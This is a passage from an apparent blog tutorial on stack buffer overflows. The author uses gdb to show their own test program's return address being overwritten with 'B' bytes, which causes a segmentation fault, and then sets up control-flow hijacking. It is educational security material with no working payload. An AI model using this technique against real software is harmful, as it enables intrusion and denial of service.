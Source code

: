 It's time to be patient and verify what is going on here, step by step. Look that I've set two breakpoints, and when got to those breakpoints I just show how data is arranged inside the **stack** (`x/24x $rsp`), the most important thing to notice here is the address `0x00005555555551ac` in the stack, in the first break it is located in the third and fourth column of the third row (yep, the way it is stored is strange), in the second break it is located right on top of the stack (the two first columns).

Do you remember I explained that when functions are called, the return address is pushed onto the stack so the program knows where to return after the function execution? This is exactly what we're seeing now, If you verify the disassembly of the **main** function you'll notice that the address `0x00005555555551ac` is the instruction right after the **readString** call.

Ok, ok, but why this is important? I'll make things more interesting now, I promise. I'm just using one breakpoint now:

```nasm
(gdb) delete 1 # To delete the breakpoint #1
(gdb) run
Starting program: /home/willgcr/Desktop/stack-overflow/overflow4 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
AAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x000055555555519e in readString ()
(gdb) x/24x $rsp
0x7fffffffdc98:	0x42424242	0x00005500	0x00000001	0x00000000
0x7fffffffdca8:	0xf7da5d90	0x00007fff	0x00000000	0x00000000
0x7fffffffdcb8:	0x5555519f	0x00005555	0xffffdda0	0x00000001
0x7fffffffdcc8:	0xffffddb8	0x00007fff	0x00000000	0x00000000
0x7fffffffdcd8:	0x4fea32d3	0x1a86bd3b	0xffffddb8	0x00007fff
0x7fffffffdce8:	0x5555519f	0x00005555	0x55557db8	0x00005555
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000550042424242 in ?? ()
```

The breakpoint left is the one at the call to `ret`, inside `readString`, and as you can see now, the stack at this point have the return address replaced by `0x42424242`. It happens that in the ASCII character set, 0x42 corresponds to the uppercase letter **'B'**. Congratulations to me, I just replaced the returning address by overwriting it on the stack using a buffer overflow!

But how the hell is something like this useful? Well, the most boring way of exploiting a stack overflow has already been shown: *a denial of service*, this is exactly what just happened. 

But there is a more interesting approach to this exploitation: controlling how the program works and behaves, and executing arbitrary code. Now let's see if I can still do something better. The next thing I'm going to try is replacing the address of return inside the stack by a known address, not random "ABC" bytes anymore, let's see what happens:

```bash
(gdb) set disassembly-flavor intel
(gdb) run <<< $(printf "TEST_INPUT")
Starting program: /home/willgcr/Desktop/stack-overflow/overflow4 <<< $(printf "TEST_INPUT")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
TEST_INPUT
[Inferior 1 (process 34678) exited normally]
(gdb) disas main
Dump of assembler code for function main:
   0x000055555555519f <+0>:	endbr64 
   0x00005555555551a3 <+4>:	push   rbp
   0x00005555555551a4 <+5>:	mov    rbp,rsp
   0x00005555555551a7 <+8>:	call   0x555555555169 <readString>
   0x00005555555551ac <+13>:	mov    eax,0x0
```